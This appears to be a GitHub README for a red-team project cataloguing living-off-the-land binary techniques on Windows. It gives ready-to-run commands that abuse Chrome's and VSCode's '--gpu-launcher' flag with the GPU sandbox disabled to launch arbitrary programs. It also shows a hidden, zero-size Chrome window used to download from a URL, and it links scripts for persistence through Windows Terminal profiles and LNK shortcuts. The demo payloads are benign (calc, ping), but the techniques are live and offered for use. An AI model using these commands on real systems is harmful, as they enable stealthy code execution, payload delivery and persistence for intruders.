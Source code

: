 # Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Persistence_P0C.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Lnk%20Persistence.ps1)

````

